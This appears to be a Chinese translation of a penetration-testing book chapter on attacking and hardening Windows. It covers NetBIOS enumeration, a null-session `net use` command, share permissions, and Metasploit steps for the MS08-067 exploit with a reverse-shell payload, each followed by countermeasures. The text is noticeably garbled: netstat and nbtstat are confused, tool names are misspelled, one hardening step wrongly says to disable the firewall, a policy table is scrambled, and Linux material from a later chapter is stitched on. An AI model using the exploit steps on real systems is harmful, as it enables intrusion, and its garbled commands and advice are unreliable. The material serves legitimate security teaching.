本章中的利用程序是在防火墙内部、内部网络上针对 Windows 系统运行的。除非我另有说明，本章中的所有测试都可以在所有版本的 Windows OS 上运行。本章中的攻击足以值得测试，无论你目前的配置如何。你的结果将由于特定的 Windows 版本、补丁级别以及你所做的其他系统加固而与我不同。


## 系统扫描

几个简单的过程就可以识别 Windows 系统中的弱点。

## 测试

通过运行初始端口扫描开始收集有关你 Windows 系统的信息，如下：

1. 运行基础扫描以找到每个 Windows 系统开放了哪些端口。

使用端口扫描工具（如 NetScanTools Pro）扫描 TCP 端口。图 12-1 显示的 NetScanTools Pro 结果显示了 Windows 10 系统上的几个潜在漏洞端口，包括广受欢迎且易受攻击的 NetBIOS (TCP 和 UDP 端口 139) 以及 SQL Server Browser 服务 (UDP 1434) 的端口。



2. 执行系统枚举（使用 LanGuard 等多合一工具），如图 12-2 所示。

如果你需要识别 版本，可以使用 nmap，如图 12-3 所示。

3. 确定漏洞。

漏洞分析具有主观性，但如图 12-4 所示，你可以使用 nstat 收集 Windows 信息。





## 应对措施

可以通过实施以下设置防止外部攻击者收集信息：

- 使用 Windows 防火墙或其他防火墙软件。
- 在每个系统使用网络防火墙。
- 禁用不需要的服务。

## NetBIOS

你可以使用 NetBIOS（网络基本输入输出系统）功能收集 Windows 信息。NetBIOS 允许应用程序在局域网内与其他主机进行通信。

如果不保护，这些 NetBIOS 端口可能会被破坏：

- 用于网络浏览的 UDP 端口：
    - 137 (NetBIOS 名称服务，也称为 WINS)
    - 138 (NetBIOS 数据报服务)
- 用于服务器消息块 (SMB) 的 TCP 端口：
    - 139 (NetBIOS 会话服务，也称为 CIFS)
    - 445 (在 TCP/IP 上运行 SMB)

## 攻击

以下两节描述的攻击可以在运行 NetBIOS 的未保护系统上执行。

## 未经身份枚举

当你进行未经身份枚举测试时，可以通过以下方式收集本地或远程系统的配置信息：

- 使用多合一扫描器，如 LanGuard 或 Nexpose。
- 使用 Windows 内置的 nbstat 程序。（nbstat 代表 NetBIOS over TCP/IP Statistics）。

图 12-4 显示了通过简单的 nbstat 查询从 Windows 7 系统收集的信息。


## Administrator.cmd

```
C:\Windows\system32>netstat -a 10.0.0.207
Active Connections    Scope Id: 13
Node 1phdserver (10.0.0.207)
netstat -ano Network Connection Table
Proto  Local Address          Foreign Address         State
TCP    10.0.0.207:49682      0.0.0.0:0              LIST
TCP    10.0.0.207:49683      10.0.0.101:443         ESTABLISHED
TCP    10.0.0.207:49684      10.0.0.101:51235      ESTABLISHED
MAC Address : 00-80-29-D7-01-49
```

图 12-4:
使用 netstat 收集 Windows 7 上的信息。

## 共享 (SHARES)

Windows 使用网络共享来共享系统上的文件夹或驱动器，以便其他用户可以通过网络访问它们。共享易于设置，并为与网络上的其他用户共享文件提供了极佳的方法，无需涉及服务器。然而，共享经常被误用，允许用户、恶意软件以及已经进入内部的攻击者访问他们本不应该获取的信息。你可以使用 LangGuard 内置的共享查找器（Share Finder）工具搜索网络共享。该工具会扫描整个 IP 地址范围的 Windows 共享，如图 12-5 所示。



图 12-5:
使用 LangGuard 扫描网络中的 Windows 共享。

## 第 12 章 Windows 200

Everyone 组对 THINKPAD 宿主机上的 LifeandHealth 共享具有完全共享和文件访问权限。我经常看到这种情况：某人共享了一个本地驱动器以便他人访问。问题是，此人经常忘记删除权限，从而为安全泄露留下了巨大的缺口。

图 12-5 显示的共享正是恶意内部人员寻找的，因为共享名称暗示了如果攻击者连接到共享，可能会访问哪些类型的文件。在有意图的人发现此类共享后，他们可能会进一步挖掘，查看是否可以浏览并访问共享内的文件。我将在本章晚些部分以及第 16 章中介绍共享以及网络共享上的敏感信息。

## 防御 NetBIOS 攻击的措施

你可以实施安全防护措施，以减少 Windows 系统上的 NetBIOS 和 NetBIOS over TCP/IP 攻击：

- 使用网络防火墙。
- 在每个系统上使用 Windows 防火或其他个人防火墙软件。
- 禁用 Windows 防火墙和打印机共享，该设置位于 Windows 控制面板中。在 Windows 8.1 和 Windows 10 中，它位于控制面板 > 网络和 Internet > 网络和共享中心 > 更改设置。
- 教育用户不要在没有恰当的安全访问控制的情况下启用允许所有人访问的文件共享，这是危险的。我将在本章晚些部分和第 16 章中介绍这些风险。对于当今大多数网络来说，顶级专家们对此毫无疑问。

隐藏共享——那些在共享名称末尾带有美元符号 ($) 的共享——实际上并没有隐藏共享名称。我提到的任何工具都能看穿这种“通过隐性实现的安全”。事实上，如果你遇到此类共享，你会想要更仔细地查看它们，因为用户可能试图隐藏某些东西，或者他们知道共享上的信息是敏感的，不想引起注意。


## 检测空会话 (Null Sessions)

Windows 中一个众知的漏洞可以将匿名连接（或空会话）映射到名为 IPCCS（代表进程间通信）的隐藏共享。这种方法可以收集 Windows 主机配置信息（例如用户 ID 和共享名称），或编辑远程计算机注册表的某些。

尽管 Windows Server 2008 及更高版本以及 Windows 7、Windows 8 和 Windows 10 默认不允许空会话连接，但我经常遇到由于禁用 Windows 防火墙而被配置成那样的系统。这种漏洞可能会给你的网络带来问题。

虽然后版本的 Windows 比其之前的版本安全得多，但不要假设 Windows 世界一切安好。我无法记得自己有多少次为了适应应用程序或其他业务需求而调整了 Windows 安装，而这些调整恰恰便利了利用。


## 映射 (Mapping)

对每个想要映射空会话的 Windows 计算机按照以下步骤操作：

1. **格式化基本 net 命令**，如下：

```
net use \host_name_or_IP_address\ipc$ ""/user:"
```

映射空会话需要这些参数：

- net（Windows 内置网络命令）后跟 use 选项。
- 你想要映射的系统的 IP 地址或主机名。
- 空白密码和用户名。

2. **按回车键完成命令。**

图 12-6 显示了空会话的示例。


| 状态 | 远程 |
| :--- | :--- |
| OK | \\18.12.1.ipc$ |
| OK | \\18.12.1.ipc$ |
| OK | \\18.12.1.ipc$ |

第 12 章 Windows 201

要确认会话已映射，在提示符处输入此命令：

```
net use
```

## 获取信息 (Gleaning information)

通过空会话，你可以使用其他工具收集关键信息。几十种工具可以：

- 破解你发现的用户密码。
- 映射驱动器以查看的 Windows 版本。

## net view

`net view` 命令（见图 12-7）显示了可用的 Windows 主机。你可以使用该程序的输出查看：

- 攻击者可以利用的共享信息。
- 可能需要删除的共享权限，例如 Everyone 组在旧 Windows 系统上的权限。

## 配置和用户信息

Winfo 和 DumpSec (https://www.systemtools.com/somarsoft/index.html) 可以收集有关用户和配置的有用信息，例如系统所属的 Windows 域、安全策略设置、本地用户名和驱动共享。你的偏好取决于你喜欢图形界面还是命令行。Winfo 是一个命令行工具。

由于 Winfo 是一个命令行工具，你可以创建批处理（脚本）文件来自动化枚举过程。以下是 Winfo 对 Windows 服务器输出的简化版本，但你可以从其他系统收集信息：


```
Winfo 2.0 - copyright (c) 1999-2003, Arne Vidstrom
-- http://www.ntsecurity.com/toolbox/winfo
SYSTEM INFORMATION:
-- OS: 4.0
PASSWORD POLICY:
-- Time between end of login time and before logoff: No forced logoff
-- Maximum password age: 42 days
-- Minimum password age: 0 days
-- Password history length: 0 passwords
-- Minimum password length: 0 characters
USER ACCOUNTS:
* Administrator
(This account is the builtin administrator account)
* doctorx
* Guest
(This account is the builtin guest account)
* IUSR_WININT
* kbeaver
* nikki
SHARES:
* ADMIN$
```


- 类型：为 IPC 或管理共享保留的特殊共享
* IPC$
* 类型：未知
* Here2Hacked
* 类型：磁盘驱动器
* C$
* 类型：为 IPC 或管理共享保留的特殊共享
* Finance
* 类型：磁盘驱动器
* HR
* 类型：磁盘驱动器

这些信息无法从 Windows Server 2003 或 Windows XP 及更高版本的 Windows 默认安装中清除——只能从支持的系统中清除。我希望你没有在运行上述版本的 Windows，尽管我仍然看到它们在世。


你可以查看此类工具的输出，寻找不属于你系统的用户 ID，例如尚未禁用的前员工账户以及黑客可能创建的潜在后门账户。

如果攻击者获取了这些信息，他们可以尝试利用可能的弱密码并以这些用户的身份登录。


## 对空会话攻击的防御措施

如果符合业务逻辑且时机合适，请升级到更安全的 Windows Server 2016、Windows Server 2019 以及 Windows 8.1 或 Windows 10，这些版本没有下列表中描述的漏洞。


通过实施以下一项安全措施，你可以轻松防止空会话连接攻击：

- 通过阻止这些 TCP 端口通过网络防火墙或个人防火墙，禁用 Windows 服务器上的 NetBIOS：
  * 139 (NetBIOS 会话服务)
  * 445 (在 TCP/IP 上运行 SMB 而不使用 NetBIOS)

- 对于不需要的系统，在机器网络连接的属性选项卡上禁用“Microsoft 网络的文件和打印机共享”。

第 4 部分 操作系统破解

限制对系统的匿名连接。如果你环境中仍然留有任何 Windows NT 和 Windows 2000 系统（我希望没有），你可以将 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\LSA\RestrictAnonymous` 设置为以下 DWORD 值：

- None（无）：这是默认设置。

- 依赖默认权限（设置为 0）：此设置允许默认的空会话连接。

- 不允许枚举 SAM 账户和共享（设置为 1）：此设置为中等安全级别，仍然允许空会话映射到 IPC，允许使用如 Walkas 等工具从系统中获取信息。

- 无显式匿名权限的情况下不允许访问（设置为 2）：这种高安全设置防止了空会话连接和系统枚举。

无显式匿名权限的访问可能会给域控制器的通信和网络浏览带来问题，因此请小心。你可能会导致网络瘫痪。


对于后续版本的 Windows、Windows Server 2008 R2 和 Windows 7，请确保本地或组安全策略中的网络匿名组件如图 12-8 所示设置。

| 图 12-8：Windows 7 中限制空会话连接的默认安全策略设置。 | 本地安全策略 | 安全设置 |
|---|---|---|
| 安全选项 | 网络访问：允许匿名 SID-名称翻译 | 禁用 |
| 本地策略 | 网络访问：允许匿名枚举 SAM 账户 | 禁用 |
| 审核策略 | 网络访问：不允许匿名枚举账户和共享 | 禁用 |
| 用户权限分配 | 网络访问：不允许存储网络用户的密码和凭据 | 禁用 |
| Windows Defender | 网络访问：限制对文件注册表的远程访问 | | |
| 列表管理策略 | 无法访问网络命名管道 | | |
| 软件限制 | 网络访问：限制对注册表路径和子路径的访问 | | |
| 策略 | 网络访问：限制对命名管道和共享的访问 | | |
| 本地计算机安全策略 | 网络访问：本地账户的共享和安全模型 | | |
| | System\CurrentControlSet... | | |
| | System\CurrentControl... | 启用 |
| | 未定义 | 类 - local users auth... |

## 检查共享权限

Windows 共享是用户通过 Windows 中的“网络”选项浏览网络时显示的可用网络驱动器。Windows 共享通常经过配置，允许比本应获得更多的人访问它们。随意的浏览者可以利用这一漏洞，但获得 Windows 系统未经授权访问的恶意内部人员可能会导致严重的合规性后果，包括泄露敏感信息和删除文件。

## Windows 默认设置

默认共享权限取决于 Windows 系统版本。

## Windows 2000/NT

在 Windows NT 和 Windows 2000 中创建共享时，默认情况下，Everyone 组在共享中拥有“完全控制”权限，可以浏览、读取和写入所有文件。

你不应该再在网络上运行这些版本的 Windows 了，但它们仍然存在！

> 任何使用空会话映射到 IPC 连接的人（如本章前面的“检测空会话”部分所述）都会自动成为 Everyone 组的一部分。因此，他们拥有浏览、读取和写入权限。

## Windows XP 及更高版本

在 Windows XP 及更高版本（Windows Server 2016、Windows 10 等）中，Everyone 组仅拥有读取权限。共享权限与文件权限不同。在创建共享时，你必须设置两种类型的权限。除非你锁定了桌面，否则用户可以通过云服务在任何地方共享文件。

## 测试

评估共享权限是查看谁可以访问内容的良好方法。这种测试显示了网络共享——以及敏感信息有多脆弱。你可以发现开启了默认权限和访问权的共享。相信我，它们无处不在！

测试共享set的最佳方法是以无权限的标准本地或域用户登录 Windows 系统，然后运行枚举程序以查看谁可以访问什么。

SoftPerfect Network Scanner 具有内置的共享查找功能，用于发现未保护的共享，其选项如图 12-9。



图 12-9：SoftPerfect Network Scanner 的共享查找配置文件搜索 Windows 共享。

将在第 16 章详细介绍如何在网络共享和其他存储系统的非结构化文件中发现敏感信息。

## 利用缺失的补丁

探测 Windows 寻找可能导致获取某些有用信息甚至系统访问的漏洞是一回事；偶然发现可以让攻击者在 10 分钟内获得完整系统访问权限的漏洞是另一回事。对于可以在系统上运行任意代码可能导致漏洞利用的人来说，这并不是空威胁。使用像 Metasploit 这样的工具，只需要系统中缺失一个补丁即可获得访问并演示整个网络是如何被破解的。

> 即使有所有书面的安全策略和先进的补丁管理工具，在我遇到的每个网络中，许多 Windows 系统都没有应用补丁。原因可能是漏洞扫描器的假警报，或者是被认为是可接受风险的缺失补丁。即使你认为所有系统都安装了最新的补丁，也要务必确认。在安全评估中，要通过验证核实。


在你在使用 Metasploit 进行“漏洞利用”之前，非常重要的一点是你要意识到自己正在进入一个敏感区域。你不仅无法获得对敏感系统的完全“授权”访问权限，还可能使被测试系统处于挂起或重启的状态。请仔细阅读每个漏洞利用程序的文档，并谨慎操作。

> 警告

在尝试利用缺失的补丁或相关漏洞之前，你必须先找到哪些可以利用的漏洞。最好的方法是使用如 Nexpose 或 Nessus 这样的工具。我发现 Nexpose 即使在我是网络未经过身份用户的情况下，也非常擅长挖掘此类漏洞。

图 12-10 显示了一个 Windows 服务器系统的 Nexpose 结果，该系统存在 2008 年恶性的 Windows 即插用远程代码执行漏洞 (MS08-067)，我仍然经常看到它。我还发现了 WannaCry 勒索软件利用利用的 SMB 服务器漏洞 (MS17-010)。该漏洞特别阴毒；它允许攻击者入侵你的系统并加密存储数据的驱动器以索要。



图 12-10：
Nexpose 发现的可利用漏洞。

导致你的整个网络被攻破（甚至被加密）仅仅是因为一个用户点击了一个坏链接。我将在第 6 章中介绍社会工程学和网络钓鱼攻击。

> 记住

# Windows 10 安全

考虑到 Windows 中存在的所有漏洞，有时人们很想跳槽到 Linux 或 macOS，但先不要急于这一步。微软在 Windows 7 和 Windows 8.x 的安全性方面取得了巨大进步，这两者都为更加安全的 Windows 10 奠定了基础。

在 Windows 8.x 的基础上，微软在 Windows 10 中进行了除了恢复的开始按钮和开始菜单以外的改进，包括：

- Windows 更新更新（Windows Update for Business），为企业级 Windows 补丁管理提供了更强大的控制
- Windows 补丁的计划重启，以提醒用户进行更新
- 更具企业级的 Windows BitLocker 版本，用于全盘加密，以及用于移动设备的 BitLocker To Go
- 通过内置的 Windows Defender 获得更好的恶意软件保护，其中包括高级威胁防护（Advanced Threat Protection）、凭据保护（Credential Guard）、设备防护（Device Guard）、设备健康审核（Device Health Attestation）和漏洞防护（Exploit Guard）
- 用于用户验证的 Windows Hello，支持指纹扫描和其他生物识别设备，如脸和虹膜仪

最后，Windows 10 运行非常快，这非常棒，特别是当你使用该系统进行安全测试时。它的效率可能正是防止用户为了加快电脑而禁用（或尝试禁用）病毒软件的关键，这种情况经常发生。而且还没有为他们提供管理员权限。

在对 Windows 10 系统运行各种扫描和攻击后，我发现从最初的原始出厂（OEM）版本直到现在，它的默认安装已经非常安全。但 Windows 10 并非对攻击完全免疫。只要软件开发、网络管理和终端用户功能中涉及人为因素，人们就会不断犯错并留下“窗口”（这里是双关语，指坏人溜入并实施攻击）。是的，即使是 Windows 10 也会受到各种勒索软件攻击的影响。关键在于确保你永远不要掉警备，并让良好的终端安全（恶意软件保护）为你所用。

## 使用 Metasploit

当你找到漏洞后，下一步就是利用它。在示例中，我使用 Metasploit Framework（一个由 Rapid7 拥有并维护的开源工具）在漏洞服务器上获取远程命令提示符。以下是你可以操作的方法：

- 1. 下载并安装 Metasploit Framework (`https://www.metasploit.com`)。我使用的是 Windows 版本；你可以下载并运行执行文件。
- 2. 安装完成后，运行 Metasploit Console，这是 Metasploit 的主控制台。（你也可以通过浏览器访问基于 Web 的 Metasploit 版本但我但我倾向于控制台界面。）你会看到与图 12-11 显示类似的屏幕。



> 图 12-11：Metasploit 主控制台界面。

- 3. 输入你想运行的利用程序。如果你想运行微软 MS08-067 即插用利用程序，输入以下内容：

```
exploit/windows/smb/ms08_067_netapi
```
- 4. 使用以下命令输入你的目标远程主机（RHOST）和你所在的本地主机 IP 地址（LHOST）：

```
set RHOST ip_address
set LHOST ip_address
```
- 5. 使用以下命令设置目标操作系统（通常设置为 0 以自动识别目标）：

```
set TARGET 0
```
- 6. 设置你想执行的有效负载（利用数据）。我通常选择 `windows/shell_reverse_tcp`，它会在被利用的系统上提供远程命令提示符。图 12-12 显示了你在 Metasploit 控制台上会看到的内容。



- 7. 输入你想运行的利用程序。假设利用成功，你将在目标系统上看到如图 12-11 所示的命令提示符。

## Metasploit Console

| 日期 | 时间 | 类型 | 名称 |
| :--- | :--- | :--- | :--- |
| 02/26/2007 | 01:49 | <DIR> | 1 |
| 02/26/2007 | 01:50 | <DIR> | 2 |
| 02/26/2007 | 01:51 | <DIR> | 3 |
| 02/26/2007 | 01:52 | <DIR> | 4 |
| 02/26/2007 | 01:53 | <FILE> | conf.py |
| 02/26/2007 | 01:54 | <FILE> | exploit.log |
| 02/26/2007 | 01:55 | <DIR> | Documents and Settings |
| 02/26/2007 | 01:56 | <DIR> | exploit |
| 02/26/2007 | 01:57 | <DIR> | Drivers |
| 02/26/2007 | 01:58 | <DIR> | Program Files |
| 02/26/2007 | 01:59 | <DIR> | WINDOWS |
| 02/26/2007 | 02:00 | <FILE> | 1360 |
| 02/26/2007 | 02:01 | <FILE> | 5 |
| | | | 6,358,231,094 bytes free |

图 12-12：通过利用缺失补丁在目标系统上获取远程命令提示符。


图 12-14 显示了 Metasploit Pro 的概述界面。注意快速启动向导（Quick Start Wizards）中的工作流功能，包括快速渗透（Quick Pent）、钓鱼攻击和 Web 应用测试。该界面设计非常巧妙，消除了传统安全扫描、利用和报告的痛苦，这对于技术背景较少的 IT 专业人员非常有帮助。



图 12-14：Metasploit Pro 的图形界面提供了广泛的安全测试能力，包括钓鱼攻击和 Web 应用检查。

Metasploit Pro 允许你从其姐妹产品 Nexpose 导入第三方漏洞扫描器（XML 文件）。在项目列表（Project Listing）部分选择你的项目名称（或创建一个新项目），然后点击导入（Import）按钮。扫描数据导入后，点击漏洞（Vulnerabilities）选项卡查看所有原始漏洞扫描器的发现。要利用其中一个漏洞（假设 Metasploit Pro 支持该利用），点击名称（Name）列中的发现项。生成的页面允许你点击利用（Exploit）并执行漏洞，如图 12-15 所示。

请记住，在本章中，我只开发了 Metasploit Framework 和 Metasploit Pro 功能的一一小部分。我强烈建议你下载这两个工具，或熟悉它们。在 https://www.metasploit.com/help 提供的大量资源可以帮助你自行操作，并将技能水平提升到新的层次。

# 第 12 章 Windows 223

将 Metasploit 的强大功能与诸如 Offensive Security 漏洞数据库存档（https://www.exploit-db.com）等网站上不断更新的利用代码相结合，如果你在安全测试中深入到那种利用程度，你实际上就拥有了所需的一切。



图 12-15：在 Metasploit Pro 中启动利用过程只需要导入扫描器结果并点击利用（Exploit），非常简单。

## 针对补漏洞利用的防御措施

补丁你的系统——包括 Windows 操作系统以及运行在上面的任何微软或第三方应用程序。我知道打补丁说起来比起来容易得多。然而，将该实践与在本章中提供的其他加固建议相结合，你将拥有一个非常安全的 Windows 环境。

为了掌握补丁流程，请在可能的地方将其自动化。可以使用以下工具：

- Windows 更新（Windows Update）。
- Windows Server 更新服务（WSUS），你可以在 https://docs.microsoft.com/en-us/windows-server/administration/windows-server-update-services/get-started/windows-server-update-services-wsus 找到它。
- 系统中心配置管理器（System Center Configuration Manager），你可以在 https://www.microsoft.com/en-us/cloud-platform/system-center-configuration-manager 找到它。

请记住，这些是以微软为中心的补丁管理工具。我可以强调，必须控制好 Adobe、Java 以及其他产品的第三方补丁。如果你正在寻找商业替代方案，可以检查 GanGuard 的补丁管理功能（https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-langguard）和 PDQ Deploy（https://www.pdq.com/pdq-deploy）等。我将在第 18 章详细介绍修复。

## 运行身份验证扫描

你可以针对 Windows 系统运行的另一种测试是身份验证扫描（authenticated scan），本质上是以受信任用户的身份寻找漏洞。发现这类测试非常有益，因为它们通常会突出系统问题，甚至是操作安全弱点（例如糟糕的变更管理流程、弱的补丁管理和缺乏信息分类），这些是永远无法被发现的。


信任的内部人员拥有网络物理访问权限，正确的工具可以更容易地利用漏洞，特别是当没有内部访问控制列表或入侵防御系统，或者存在恶意软件感染时。

在登录时（即通过恶意内部人员的视角）寻找 Windows 弱点的一种方法是使用我提到的一些漏洞扫描工具，例如 Nessus 和 Nexpose。图 12-16 显示了 Nexpose 的一个非常棒且（罕见）的功能，它允许你在开始漏洞扫描之前测试登录凭据。在开始扫描之前验证登录凭据可以为你节省大量的时间、麻烦和金钱。

记住



我建议以域管理员或本地管理员身份运行身份验证扫描。身份验证扫描可以向你展示最多的安全漏洞以及谁有权访问什么。你可能会惊讶地发现许多漏洞可以通过标准用户账户访问。你不一定需要在每次测试安全漏洞时都运行身份验证扫描，但每月运行一两次是一个好主意。

> 你在安全漏洞和渗透测试方面所做——或未做——的一切，在泄露发生后的法庭上要么会帮助你，要么会掩盖你。


## 选择工具

你可以使用许多基于 Linux 的安全工具来测试你的 Linux 和 macOS 系统。某些工具比其他工具要好得多。我发现基于 Windows 的商业工具效果与其他任何工具一样好。我最喜欢的有：

- 运行在可启动 DVD 或 .iso 文件上的 [Kali Linux](https://www.kali.org) 工具集。
- [NetScanTools Pro](https://www.netscantools.com) 用于端口扫描、操作系统枚举（OS enumeration）等。
- [Nexpose](https://www.rapid7.com/products/npexose) 用于详细的端口扫描、操作系统枚举和漏洞测试。像 Nexpose 这样的工具可以完美地执行你在 Linux 中需要进行的所有大部分安全测试。另一个流行的商业替代方案由 Qualys (www.qualys.com) 提供。
- [Nmap](https://nmap.org) 用于操作系统指纹识别和详细的端口扫描。
- [Nessus](https://www.tenable.com/products/nessus-vulnerability-scanner) 用于操作系统指纹识别、端口扫描和漏洞测试。


SourceForge (https://sourceforge.net) 上提供了许多其他 Linux 破解和测试工具。寻找一组工具——最好是免费的——能够完成你需要的工作并让你用起来顺。正如我之前提到的，你通常（并非总是）一分钱一份。

## 收集有关系统漏洞的信息

你可以扫描你的 Linux 和 macOS 系统，并从网络外部（如果系统是公开访问的主机）和网络内部收集信息。这样，你就可以从两个方向看到坏人所看到的内容。

## 系统扫描

Linux 服务（称为守护进程 daemons）是运行在系统上并为用户提供各种服务和应用程序的程序。

- Internet 服务——例如 Apache 服务器 (http)、Telnet (telnetd) 和 FTP (ftpd)——可能会泄露过多系统信息，包括软件版本、内部 IP 地址和用户名。这些信息可能允许黑客利用系统中的已知漏洞。
- TCP 和 UDP 小型服务——如 echo、daytime 和 charger——可能会被默认启用，但本不需要启用。

你 Linux 系统中的漏洞取决于正在运行哪些服务。你可以执行基本的端口扫描以获取有关运行内容的信息。

图 13-1 中的 NetScanTools 结果显示了该 Linux 系统上的许多漏洞服务，例如 SSH、DNS 和 TFTP 服务。

